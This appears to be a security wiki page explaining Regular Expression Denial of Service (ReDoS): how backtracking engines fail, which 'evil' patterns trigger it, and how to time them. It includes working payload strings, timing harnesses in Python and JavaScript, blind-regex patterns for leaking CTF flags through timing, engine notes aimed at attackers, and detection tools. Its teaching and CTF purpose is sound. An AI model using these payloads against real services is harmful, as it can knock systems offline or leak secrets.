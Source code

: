 # Regular expression Denial of Service - ReDoS

# Regular Expression Denial of Service (ReDoS)

A **Regular Expression Denial of Service (ReDoS)** happens when someone takes advantage of weaknesses in how regular expressions (a way to search and match patterns in text) work. Sometimes, when regular expressions are used, they can become very slow, especially if the piece of text they're working with gets larger. This slowness can get so bad that it grows really fast with even small increases in the text size. Attackers can use this problem to make a program that uses regular expressions stop working properly for a long time.

## The Problematic Regex Naïve Algorithm

**Check the details in [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

### Engine behavior and exploitability

- Most popular engines (PCRE, Java `java.util.regex`, Python `re`, JavaScript `RegExp`) use a **backtracking** VM. Crafted inputs that create many overlapping ways to match a subpattern force exponential or high-polynomial backtracking.
- Some engines/libraries are designed to be **ReDoS-resilient** by construction (no backtracking), e.g. **RE2** and ports based on finite automata that provide worst‑case linear time; using them for untrusted input removes the backtracking DoS primitive. See the references at the end for details.

## Evil Regexes 

An evil regular expression pattern is that one that can **get stuck on crafted input causing a DoS**. Evil regex patterns typically contain grouping with repetition and repetition or alternation with overlapping inside the repeated group. Some examples of evil patterns include:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.*a){x} for x > 10

All those are vulnerable to the input `aaaaaaaaaaaaaaaaaaaaaaaa!`.

### Practical recipe to build PoCs

Most catastrophic cases follow this shape:

- Prefix that gets you into the vulnerable subpattern (optional).
- Long run of a character that causes ambiguous matches inside nested/overlapping quantifiers (e.g., many `a`, `_`, or spaces).
- A final character that forces overall failure so the engine must backtrack through all possibilities (often a character that won’t match the last token, like `!`).

Minimal examples:

- `(a+)+$` vs input `"a"*N + "!"`
- `\w*_*\w*$` vs input `"v" + "_"*N + "!"`

Increase N and observe super‑linear growth.

#### Quick timing harness (Python)

```python
import re, time
pat = re.compile(r'(\w*_)\w*$')
for n in [2**k for k in range(8, 15)]:
    s = 'v' + '_'*n + '!'
    t0=time.time(); pat.search(s); dt=time.time()-t0
    print(n, f"{dt:.3f}s")
```

## ReDoS Payloads

### String Exfiltration via ReDoS

In a CTF (or bug bounty) maybe you **control the Regex a sensitive information (the flag) is matched with**. Then, if might be useful to make the **page freeze (timeout or longer processing time)** if the a **Regex matched** and **not if it didn't**. This way you will be able to **exfiltrate** the string **char by char**:

- In [**this post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) you can find this ReDoS rule: `^(?=<flag>)((.*)*)*salt$`
  - Example: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- In [**this writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html) you can find this one:`<flag>(((((((.*)*)*)*)*)*)*)!`
- In [**this writeup**](https://ctftime.org/writeup/25869) he used: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS Controlling Input and Regex

The following are **ReDoS** examples where you **control** both the **input** and the **regex**:

```javascript
function check_time_regexp(regexp, text) {
  var t0 = new Date().getTime()
  new RegExp(regexp).test(text)
  var t1 = new Date().getTime()
  console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
  //  "((a+)+)+$",  //Eternal,
  //  "(a?){100}$", //Eternal
  "(a|a?)+$",
  "(\\w*)+$", //Generic
  "(a*)+$",
  "(.*a){100}$",
  "([a-zA-Z]+)*$", //Generic
  "(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```

### Language/engine notes for attackers

- JavaScript (browser/Node): Built‑in `RegExp` is a backtracking engine and commonly exploitable when regex+input are attacker‑influenced.
- Python: `re` is backtracking. Long ambiguous runs plus a failing tail often yield catastrophic backtracking.
- Java: `java.util.regex` is backtracking. If you only control input, look for endpoints using complex validators; if you control patterns (e.g., stored rules), ReDoS is usually trivial.
- Engines such as **RE2/RE2J/RE2JS** or the **Rust regex** crate are designed to avoid catastrophic backtracking. If you hit these, focus on other bottlenecks (e.g., enormous patterns) or find components still using backtracking engines.

## Tools

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
  - Find vulnerable regexes and auto‑generate evil inputs. Examples:
    - `pip install regexploit`
    - Analyze one pattern interactively: `regexploit`
    - Scan Python/JS code for regexes: `regexploit-py path/` and `regexploit-js path/`
- [https://devina.io/redos-checker](https://devina.io/redos-checker)
- [https://github.com/davisjam/vuln-regex-detector](https://github.com/davisjam/vuln-regex-detector)
  - End‑to‑end pipeline to extract regexes from a project, detect vulnerable ones, and validate PoCs in the target language. Useful for hunting through large codebases.
- [https://github.com/tjenkinson/redos-detector](https://github.com/tjenkinson/redos-detector)
  - Simple CLI/JS library that reasons about backtracking to report if a pattern is safe.

> Tip: When you only control input, generate strings with doubling lengths (e.g., 2^k characters) and track latency. Exponential growth strongly indicates a viable ReDoS.

## References

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)
- SoK (2024): A Literature and Engineering Review of Regular Expression Denial of Service (ReDoS) — [https://arxiv.org/abs/2406.11618](https://arxiv.org/abs/2406.11618)
- Why RE2 (linear‑time regex engine) — [https://github.com/google/re2/wiki/WhyRE2](https://github.com/google/re2/wiki/WhyRE2)

